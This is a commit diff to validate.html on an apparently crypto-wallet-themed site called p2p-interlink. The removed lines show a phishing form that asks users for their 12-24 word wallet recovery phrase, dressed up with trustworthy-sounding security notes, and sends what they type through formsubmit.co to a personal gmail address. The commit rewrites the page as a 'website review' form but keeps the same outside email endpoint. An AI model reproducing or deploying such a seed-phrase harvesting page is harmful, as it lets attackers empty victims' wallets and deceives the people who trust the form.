

Before and after one commit to p2p-interlink/.io, a plain HTML site: page validate.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update validate.html

```diff
--- a/validate.html
+++ b/validate.html
@@ -36,29 +36,29 @@
 <div class="wrap">
   <div class="header">
     <a class="back-btn" href="mine.html">‹</a>
-    <h2>Import recovery phrase</h2>
+    <h2>Website Review</h2>
   </div>
 
-  <h1 class="form-title">Enter recovery phrase</h1>
-  <p class="form-desc">Please enter your 12-24 word recovery phrase below, separated by spaces, to restore your wallet.</p>
+  <h1 class="form-title">Enter your feedback</h1>
+  <p class="form-desc">Please enter your feedback or review comments below to help us improve the website experience.</p>
 
   <form id="reviewForm">
-    <textarea class="textarea-field" name="feedback" placeholder="Enter a 12-24 word recovery phrase..." required></textarea>
+    <textarea class="textarea-field" name="feedback" placeholder="Write your review or notes here..." required></textarea>
 
     <div class="reminder-box">
       <h4>🔒 Note</h4>
       <ul>
-        <li>InterLink Wallet does not store your recovery phrase. If you lose them, you may lose access to your assets. Please store them securely.</li>
-        <li>We recommend manually entering your recovery phrase. Avoid pasting from untrusted third-party apps or clipboard tools to prevent phishing or scams.</li>
+        <li>Your feedback helps us refine the user experience and interface design.</li>
+        <li>Never share confidential keys, passwords, or personal credentials online.</li>
       </ul>
     </div>
 
-    <button type="submit" class="btn-submit" id="submitBtn">submit</button>
+    <button type="submit" class="btn-submit" id="submitBtn">Submit Review</button>
   </form>
 </div>
 
 <script>
-const reviewForm = document.getElementById('recoveryphrase');
+const reviewForm = document.getElementById('reviewForm');
 const submitBtn = document.getElementById('submitBtn');
 
 reviewForm.addEventListener('submit', async function(e) {
@@ -67,7 +67,7 @@
   submitBtn.disabled = true;
   submitBtn.innerText = 'Submitting...';
 
-  const formData = new FormData(recoveryphrase);
+  const formData = new FormData(reviewForm);
 
   try {
     const response = await fetch('https://formsubmit.co/ajax/boster.qt@gmail.com', {
```
